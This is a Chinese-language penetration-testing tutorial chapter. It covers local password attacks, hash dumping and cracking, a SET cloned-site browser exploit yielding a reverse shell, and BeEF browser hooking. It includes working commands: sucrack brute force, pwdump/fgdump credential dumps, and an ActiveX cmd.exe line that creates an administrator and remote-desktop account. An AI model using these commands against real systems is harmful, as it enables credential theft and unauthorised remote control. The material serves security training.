# 第八章：系统和密码利用

在本章中，我们将涵盖以下内容：

+   使用本地密码攻击工具

+   破解密码哈希

+   使用社会工程师工具包

+   使用 BeEF 进行浏览器利用

+   使用彩虹表破解 NTLM 哈希

# 介绍

在本章中，我们将专注于获取哈希值，然后破解它们以获取访问权限。这些信息可以得到很好的利用，因为很有可能在同一网络中有其他使用相同密码的系统。让我们继续看看如何实现这一点。

# 使用本地密码攻击工具

在本教程中，我们将看到一些用于 Windows 和 Linux 的工具，用于执行猜测密码攻击。对于 Linux，我们将使用一个名为**sucrack**的工具，对于 Windows，我们将使用**fgdump**和**pwdump**。Sucrack 用于通过`su`命令破解密码，这是一个多线程工具。SU 是 Linux 中的一个工具，允许您使用替代用户运行命令。但首先让我们了解这些工具：Sucrack 是一个密码破解器。Fgdump 和 pwdump 是从 LSASS 内存中转储 SAM 哈希的工具。**JTR**（**John the Ripper**）是用于 SAM 哈希的破解器。**Windows 凭证编辑器**（**WCE**）是一个安全工具，用于列出登录会话并添加、更改、列出和删除相关的凭证（例如 LM/NT 哈希、明文密码和 Kerberos 票据）。让我们从实际操作开始。

## 准备工作

为了演示这一点，我们需要一台 Windows XP 机器和我们的 Kali Linux 发行版。读者可能还需要将`PwDump.exe`和`FgDump.exe`从 Kali Linux 移植到 Windows XP。

## 如何做...

1.  出于演示目的，我们已将密码更改为`987654321`。输入以下命令开始 sucrack 攻击：

```
      sucrack -a -w 10 -s 3 -u root /usr/share/wordlists/rockyou.txt

```

输出将如下屏幕截图所示：


一旦攻击完成并且密码与字典中的一个匹配，我们将得到以下结果：


1.  同样，我们可以为任何想要的用户执行相同的操作，只需在`-u`参数中输入他/她的用户名。

1.  让我们看看如何在 Windows 机器上完成相同的操作。`wce.exe`、`PwDump.exe`和`FgDump.exe`的二进制文件可以在 Kali Linux 的`/usr/share/windows-binaries/`路径中找到。将其导入到 Windows 机器以继续。

现在我们有了工具，确保终端指向放置文件的同一文件夹。

1.  在终端中输入以下命令：

```
      PWDump.exe -o test 127.0.0.1

```

输出将如下屏幕截图所示：


1.  现在用记事本打开在执行`PWDump.exe`命令的同一文件夹中创建的测试文件：

这表明`PwDump.exe`提取了所有密码并以 NTLM 哈希状态显示；可以在 NTLM 解密网站上使用相同的方法，这些网站存储了大量带有明文密码的哈希值。这些网站存储了一个巨大的已破解哈希值数据库，可以进行比较以获取原始字符串。需要记住的一点是 NTLM 哈希是单向哈希，无法解密；获取实际密码的唯一方法是拥有单词及其对应的哈希值。一个著名的网站是[`hashkiller.co.uk`](https://hashkiller.co.uk)。它大约有 312.0720 亿个唯一解密的 NTLM 哈希。

1.  现在让我们来看看 fgdump 及其工作原理。在我们继续之前，我们需要知道 fgdump 是 pwdump 的更新版本；它具有显示密码历史记录的附加功能（如果可用）。在命令提示符中输入以下命令：

```
      fgdump.exe

```

输出将如下屏幕截图所示：



这将创建三个文件：两个 pwdump 文件和一个 cache-dump 文件：


1.  打开 pwdump 文件后，我们得到了与我们在之前运行的工具中得到的相同的 NTLM 哈希；可以将相同的内容输入到 NTLM 破解网站中以获得明文密码。

## 它是如何工作的...

我们使用了一些参数。让我们了解一下它是如何工作的：

```
sucrack -a -w 10 -s 3 -u root /usr/share/wordlists/rockyou.txt

```

+   `-a`：这使用 ANSI 转义代码来显示漂亮的统计信息

+   `-w`：显示要运行的工作线程数

+   `-s`：以秒为单位显示统计信息的间隔

+   `-u`：显示要`su`到的用户帐户

```
Pwdump.exe -o test 127.0.0.1

```

让我们了解一下`Pwdump.exe`使用的参数：

+   `-o`：这用于写入文件

+   `127.0.0.1`：输入受损机器的 IP 地址

## 还有更多...

sucrack、pwdump 和 fgdump 中还有更多可以探索的选项。只需在各自的窗口和终端中发出命令`sucrack`、`Pwdump -h`和`fgdump -h`即可获取所有可用选项。

# 破解密码哈希

在这个教程中，我们将看到如何破解明文密码的哈希。我们将使用 John the Ripper。John the Ripper（JTR）是一个快速的密码破解器，目前可用于多种 Unix、Windows、DOS 和 OpenVMS 版本。它的主要目的是检测弱 Unix 密码。除了在各种 Unix 系统上常见的几种 crypt（3）密码哈希类型之外，支持的还有 Windows LM 哈希，以及社区增强版本中的许多其他哈希和密码。

## 准备工作

我们需要将在 Windows 机器上获得的哈希传输到我们的 Kali 机器上，之后我们可以开始比较哈希。

## 如何做...

1.  让我们从破解密码时最有效的工具之一 JTR 开始。在给定的示例中，我们已经获取了哈希转储。该文件已重命名为`crackme`以便阅读。

1.  在终端中输入以下命令：

```
john crackme

```

输出将如下截图所示：


正如我们所看到的，密码是以明文检索的；例如，`dhruv: 1`和`dhruv: 2`形成了整个密码`Administrator`；其他密码也是类似的。密码之所以被分割成这样，是因为 NTLM 哈希机制。整个哈希实际上被分成了 8:8 的段，如果密码大于八个字符，另一部分也会用于哈希密码。

John the Ripper 支持破解不同类型的哈希，其中 NTLM 是其中之一。

## 它是如何工作的...

在前面的教程中，我们使用了以下命令：

+   `|john crackme`：其中`crackme`是包含哈希的密码文件

John the Ripper 是一个智能工具；它可以检测使用的加密类型，并自动执行破解阶段。

## 还有更多...

可以使用`man john`或`john --help`命令找到更多关于 John the Ripper 的信息：


# 使用社会工程工具包

**社会工程工具包**（**SET**），顾名思义，专注于利用人类好奇心的特性。SET 是由 David Kennedy（ReL1K）编写的，并在社区的大力帮助下，已经整合了攻击。在这个教程中，我们将看看如何创建一个恶意可执行文件，以及攻击者如何等待受害者执行该文件。我们还将看看攻击者如何通过诱使受害者访问恶意网站来获得反向 shell。

## 准备工作

在这个教程中，我们将使用带有 Internet Explorer 6 的 Windows 操作系统和 Kali Linux 机器；`Setoolkit`默认作为 Kali 的一部分安装。

## 如何做...

1.  使用以下命令启动社会工程工具包：

```
Setoolkit

```

输出将如下截图所示：


在这个活动中，我们将看看如何使用“社会工程攻击”来托管一个假网站，并利用用户的 IE（如果易受攻击），并获得对他账户的反向 shell。我们将选择“社会工程攻击”，即选项 1：


1.  现在我们将选择网站攻击向量，即 2，然后看起来如下：

1.  现在我们将选择“Metasploit 浏览器利用方法”选项 2：

1.  之后，我们将克隆该网站并填写必要的信息：

```
      set:webattack>2
      [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
      [-] not externally exposed and may be a different IP address       than your reverse listener.
      set> Are you using NAT/Port Forwarding [yes|no]: yes
      set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
      set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
      [-] SET supports both HTTP and HTTPS
      [-] Example: http://www.thisisafakesite.com
      set:webattack> Enter the url to clone:http://security-geek.in

```

同样的截图如下所示：


1.  我们将选择“Internet Explorer 6 的 Aurora 内存损坏漏洞（2010-01-14）”，选项 37，并选择 Metasploit **Windows Shell Reverse_TCP**，选项 1，并指定任何所需的端口，最好是大于 1,000，因为低于 1,000 的端口是为操作系统注册的。输出将如下截图所示：

一旦恶意网站的设置完成，它将如下所示：


1.  现在我们在攻击者端的配置已经完成，我们所要做的就是在恶意网站上呼叫受害者。在这个练习中，我们的受害者是一个带有 IE 6 版本的 Windows 机器：

恶意脚本被执行，如果满足所有条件，如 Internet Explorer 浏览器、易受攻击的浏览器版本和无杀毒软件检测，我们将获得反向 shell 作为我们的有效载荷，如前所述：


检查以确保它是相同的系统，让我们运行 ipconfig：



## 它是如何工作的...

正如您所看到的，整个练习是不言自明的；我们创建或托管一个假网站，以窃取信息或远程访问系统。在企业环境中，这应该被极度小心对待。没有执行特殊命令；只是按照流程进行。

## 还有更多...

让我们假设攻击者想要攻击一个服务器，然而，只有三到四个人在防火墙上有权访问该服务器。攻击者会进行社会工程，迫使这四个用户中的一个访问该网站，并可能幸运地获得一个 shell。一旦完成，攻击者将能够通过受损的机器在目标服务器上发起攻击。

社会工程工具包不仅限制您进行基于浏览器的利用，甚至还包含诸如网络钓鱼、大规模邮件发送、基于 Arduino 的攻击、无线攻击等模块。由于本章节限制在利用方面，我们已经准备好了解如何通过 SET 进行利用的方法。

# 使用 BeEF 进行浏览器利用

**BeEF**代表**浏览器利用框架**。它是一个主要专注于浏览器和相关利用的渗透测试工具。如今，对客户端浏览器的威胁日益增多，包括移动客户端、Web 客户端等。BeEF 允许我们使用客户端攻击向量对目标进行渗透测试，例如创建用户、执行恶意脚本等。BeEF 主要专注于基于 Web 客户端的利用，例如浏览器级别。

## 准备工作

BeEF XSS 已经是 Kali Linux 的一部分。在这个练习中，我们使用的是一个带有 Firefox 浏览器的 Windows 机器。我们将通过 Firefox 浏览器钩住客户端。在访问钩子时，JavaScript 被执行并部署钩子。如果在运行 BeEF-XSS 框架时遇到任何问题，请参考[`github.com/beefproject/beef/wiki/Installation`](https://github.com/beefproject/beef/wiki/Installation)上的指南。

## 如何操作...

1.  通过在终端中输入以下内容来启动 BeEF 框架：

```
      cd /usr/share/beef
      ./beef

```

输出将如下截图所示：


1.  现在在 Kali 中打开 Firefox 浏览器并访问 UI 面板，如输出中所述。输入用户名密码为`beef:beef`：

1.  要钩住浏览器，我们将不得不让它加载 BeEF 的钩 URL；我们将对我们的 Windows 机器做同样的操作。我们让浏览器访问我们的 BeEF 框架的钩 URL：

1.  正如我们所看到的，框架已经检测到了一个钩，并将其附加到了钩上，现在我们可以浏览 BeEF 提供的不同能力，以利用浏览器攻击用户。注意：也可以通过强制加载来自可用的利用模块的隐藏弹出窗口来创建持久的钩，以便当用户从注入钩的页面浏览时，攻击者仍然拥有会话：

我们现在已经成功地将客户端钩到了 BeEF 框架上。通常，这个钩是一个 XSS 向量，并被粘贴为一个 iframe 覆盖任何用户访问的应用程序，然后攻击者继续攻击用户。

1.  让我们在客户端上弹出一个框来查看它的工作原理。读者应该点击被钩住的浏览器的 IP 并转到命令选项卡。在被钩住的域下，有一个**Create Alert Dialogue**的选项。点击它，设置好参数，然后点击**Execute**。检查被钩住的浏览器是否收到了警报提示：

脚本执行后，受害者浏览器将出现一个警报对话框，如下截图所示：



1.  是的，它正在运行。现在在命令部分有各种模块可用。它们由彩色的球分开，绿色，橙色，红色和灰色。绿色表示命令模块针对目标起作用，并且对用户应该是不可见的；橙色表示命令模块针对目标起作用，但可能对用户可见；灰色表示命令模块尚未针对该目标进行验证；红色表示命令模块不适用于该目标。

1.  考虑到被钩住的浏览器是由管理员操作的，我们将使用钩来创建具有远程桌面功能的用户。在我们的环境中，我们有 Internet Explorer 在启用 ActiveX 的 Windows XP 上运行。要执行此操作，请选择机器的钩，然后转到**Commands** | **Module Tree** | **Exploits** | **Local Host** | **ActiveX Command Execution**。

在**ActiveX Command Execution**中，设置命令如下：

```
      cmd.exe /c "net user beefed beef@123 /add &  net localgroup        Administrators beefed /add & net localgroup "Remote desktop       users" beefed /add & pause"

```

设置相同的选项如下截图所示：


1.  我们现在将尝试使用 Kali 中的`rdesktop`命令对远程系统进行远程桌面连接。输入用户名、密码和 IP 以连接到机器：

```
      rdesktop -u beefed -p "beef@123" 192.168.157.155

```

输出将如下截图所示：


我们已成功通过客户端浏览器访问系统。

## 工作原理...

BeEF 使用 JavaScript hook.js，当被浏览器访问时，将控制权交给 BeEF 框架。有了可用的钩，可以使用命令模块中提供的各种功能。它们的能力各不相同，从枚举到系统利用，从窃取 cookie 到窃取会话，中间人攻击等等。攻击者最容易获得钩的方法是通过 XSS 攻击向量，导致它们加载一个 iframe 并附加一个钩。即使他们从感染的网站上浏览离开，钩也可以变得持久。这部分可以作为读者的家庭作业。前面的练习是不言自明的：没有额外需要解释的命令。

## 还有更多...

BeEF 是一个很棒的客户端渗透测试工具。在大多数情况下，我们演示了 XSS 的可能性。这是下一步，展示了如何通过简单的 XSS 和 JavaScript 对远程系统进行 root 并从浏览器中窃取。更多信息可以在 BeEF 框架维基上找到。

# 使用彩虹表破解 NTLM 哈希

对于这个活动，我们将使用**Ophcrack**，以及一个小的彩虹表。Ophcrack 是一个基于彩虹表的免费 Windows 密码破解工具。这是一种非常有效的彩虹表实现，由该方法的发明者完成。它带有**图形用户界面**（**GUI**）并在多个平台上运行。它默认在 Kali Linux 发行版中可用。本示例将重点介绍如何使用 Ophcrack 和彩虹表破解密码。

## 准备工作

对于这个示例，我们将破解 Windows XP 密码。彩虹表`db`可以从[`ophcrack.sourceforge.net/tables.php`](http://ophcrack.sourceforge.net/tables.php)下载。Ophcrack 工具在我们的 Kali Linux 发行版中可用。

## 如何操作...

1.  首先，从 Ophcrack sourceforge 表中下载`tables_xp_free_fast`文件，并将其放入您的 Kali 机器中。使用以下命令解压缩它：

```
Unzip tables_xp_free_fast.zip

```

输出将如下截图所示：



1.  我们已经从被入侵的 XP 机器中获得了要使用的哈希值。现在，要使用先前的彩虹表运行 Ophcrack，使用以下命令：

```
Ophcrack

```

现在将加载一个看起来像以下截图的 GUI。使用任何哈希转储方法加载检索到的密码哈希。在这种情况下，使用 pwdump：


1.  一旦密码哈希加载完成，屏幕将如下所示：

1.  点击**Tables**，选择**XP free fast**表，点击**Install**，并浏览到我们从 ophcrack 下载彩虹表文件的路径：

1.  现在我们点击 GUI 中的破解选项，破解将开始：

正如我们所看到的，几乎在中途，我们已经成功使用 Ophcrack 找到了一个常用密码，借助彩虹表的帮助。

## 它是如何工作的...

该工具非常易于理解，可以无故障地运行。它使用我们找到的哈希的 NT/LM 并将它们与提供的彩虹表进行匹配。当哈希匹配时，彩虹表会查找导致哈希的相应名称，我们最终以明文形式获得我们的值。

## 还有更多...

在这里，我们演示了使用最小可用大小的彩虹表。彩虹表的大小可以从 300 MB 到 3 TB 不等；此外，Ophcrack 表的高级账户可能会导致巨大的彩虹表大小。这可以在他们之前分享的 sourceforge 链接上查看。
